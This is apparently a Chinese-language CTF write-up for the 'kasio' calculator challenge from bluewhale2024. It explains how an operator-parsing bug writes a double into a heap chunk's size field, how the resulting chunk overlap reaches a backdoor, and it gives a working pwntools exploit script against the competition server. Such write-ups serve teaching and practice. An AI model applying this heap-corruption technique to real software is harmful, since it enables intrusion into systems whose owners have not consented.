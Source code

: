 ```yaml
---
title: bluewhale2024 - 卡死欧计算器 
date: 2024/5/3 23:44:00
updated: 2024/7/25 12:34:56
tags:
    - heap - tcache
    - buffer nearby-flow
thumbnail: /assets/bluewhale2024/kasio.png
excerpt: 利用堆块重叠漏洞，通过修改堆块尺寸实现计算器后门。
---
```


{% note %}
李明写的一个简单的表达式计算器，输入诸如`2*(3+4)^5`的式子回车即可进行计算  
就是有时候不太好使不知道为啥就死机了
 李明发现的可以让计算器卡死的最小复现：  
> `()+()+1`  
> `报错： double free or corruption (out)`
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

通过给的提示不难发现，程序将`1.0`这一double值写在了堆块尺寸上，导致了free时的异常，
由此，我们得到了修改堆块尺寸的原语，如果能造成堆块重叠，就能将数字从`num_stack`溢出写到`op_stack`，
使得原本无法输入的#字符出现在`op_stack`上，实现运行后门，具体解释如图所示

![kasio heap layout](/assets/bluewhale2024/kasio.png)

有以下几点可以再解释：
1. 分配堆块大小由token数决定，由于token由数字和操作构成，故一般情况下不能利用
2. 要想获得"0x91"的double值，需使用"0x60"的字面量，看起来有精度损失
3. 需要用`1+(`的方式来将数字push到栈上，直接运算就无法溢出了
4. `()+()+`会导致将数字写入到`num_stack[top]`，而top已经变成-1了，对应堆块的size

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./kasio')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('competition.blue-whale.me', 20128)
    magic = '4.7430302000759668e-322' # 0x60 -> 0x91
    sharp = '2.0087766792234922e-139' # '########'

    sh.sendlineafter(b'input', b'1+1+1')                    # 0x31, 0x21
    sh.sendlineafter(b'input', b'1+1+1+1')                  # 0x31(free), 0x21, 0x41
    sh.sendlineafter(b'input', f'()+()+{magic}'.encode())   # 0x31 -> 0x91, 0x21, 0x41(free)
    sh.sendlineafter(b'input', f'1+(2+(3+(4+(5+({sharp})))))'.encode())

    sh.clean()
    sh.interactive()
    sh.close()
```
